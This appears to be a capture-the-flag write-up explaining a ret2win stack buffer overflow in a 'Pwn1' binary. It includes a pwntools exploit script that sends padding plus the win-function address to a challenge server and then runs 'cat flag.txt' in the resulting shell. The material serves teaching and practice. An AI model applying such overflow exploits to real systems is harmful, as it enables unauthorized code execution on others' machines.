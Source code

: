 # Pwn1
We are given a connection to a server<br>
First of all we want to decompile the binary. <br>
In <i>main</i> function the program takes input from user then returns fake flag. <br>
![preview](images/1.png)<br>

We can also see that there is another function called <i>win</i> which returns shell. <br>
![preview](images/2.png)<br>
### Solution
This code takes 80 bytes from user and tries to put it in 64 byte char table. That leads to overflow and we can use it to redirect code execution to <i>win</i> function. <br>
So we can just enter payload consisting of 72 bytes of padding and 8 bytes long address of <i>win</i> function<br> to overwrite instruction pointer and redirect code execution <br>
![preview](images/3.png)<br>
### Code
```
from pwn import *

host = 'challs.n00bzunit3d.xyz'
port = '35932'

context.binary = 'pwn1'

padding = 72*'a'
address = pack(0x40124a)
payload = padding.encode('utf-8') + address

conn = remote(host,port)

conn.sendline(payload + b'cat flag.txt')
print(conn.recv())
print(conn.recv())
print(conn.recv())
```
### Why does it happen?

As you can see on disassembly of <i>main</i> function it first creates 64 bytes stack and before return it frees up the stack with leave instruction which is shorthand for:
```
mov rsp, rbp
pop rbp
```
![preview](images/4.png)<br>
So if we can input 80 bytes to 64 bytes big stack, we can overflow it and make <i>main</i> function ret to address of <i>win</i> function and hence redirect code to <i>win</i> function.
